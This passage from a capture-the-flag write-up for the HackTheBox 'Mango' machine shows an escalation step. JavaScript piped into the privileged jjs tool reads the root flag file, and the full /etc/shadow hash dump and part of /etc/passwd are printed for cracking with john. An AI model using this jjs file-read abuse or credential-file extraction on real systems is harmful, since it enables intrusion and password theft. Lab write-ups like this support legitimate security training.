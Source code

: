 A short script to give us a root shell... But it won't work. So I try to open the root flag directly.

```bash
admin@mango.htb:~$ echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
HERE-IS-FLAG
```

That's it. The root flag is taken. But I tried a few things to get a real root shell. 
The reverse shell and also the native shell didn't work for me. So I thought, maybe I can crack the root password.

For that I used the /etc/passwd and the /etc/shadow, merge them and let john the dirty work do.

```bash
# /etc/shadow

root:$6$6uG5902N$XonoH4wyYV2f8.7fEVXLe03mLoH3r1lnJ59s2jTWTAV.qZKZH.CXYjCWuUG5gLnioLpSTBA3F1LXqQAOqdAJN/:18166:0:99999:7:::
daemon:*:17941:0:99999:7:::
bin:*:17941:0:99999:7:::
sys:*:17941:0:99999:7:::
sync:*:17941:0:99999:7:::
games:*:17941:0:99999:7:::
man:*:17941:0:99999:7:::
lp:*:17941:0:99999:7:::
mail:*:17941:0:99999:7:::
news:*:17941:0:99999:7:::
uucp:*:17941:0:99999:7:::
proxy:*:17941:0:99999:7:::
www-data:*:17941:0:99999:7:::
backup:*:17941:0:99999:7:::
list:*:17941:0:99999:7:::
irc:*:17941:0:99999:7:::
gnats:*:17941:0:99999:7:::
nobody:*:17941:0:99999:7:::
systemd-network:*:17941:0:99999:7:::
systemd-resolve:*:17941:0:99999:7:::
syslog:*:17941:0:99999:7:::
messagebus:*:17941:0:99999:7:::
_apt:*:17941:0:99999:7:::
lxd:*:17941:0:99999:7:::
uuidd:*:17941:0:99999:7:::
dnsmasq:*:17941:0:99999:7:::
landscape:*:17941:0:99999:7:::
pollinate:*:17941:0:99999:7:::
sshd:*:18166:0:99999:7:::
mango:$6$D9GOkLkh$Il/e.J35n8XniWWTWXPoXj0w.YwwVS2uAy5EHR8GoyZBoMj02sGSLXakk0nsCJS2v1SrWA6y.y2GCR3L/T5h41:18166:0:99999:7:::
admin:$6$Ls6eLFhb$XoRxrUPmgvjcZSoN1OnYWIlb7ALWvcaiK3MubdX99C08H1lWLfXDipAmqdRc6yikHUwaixBD/UnK/GhFx/tIY1:18166:0:99999:7:::
mongodb:*:18166:0:99999:7:::

# /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```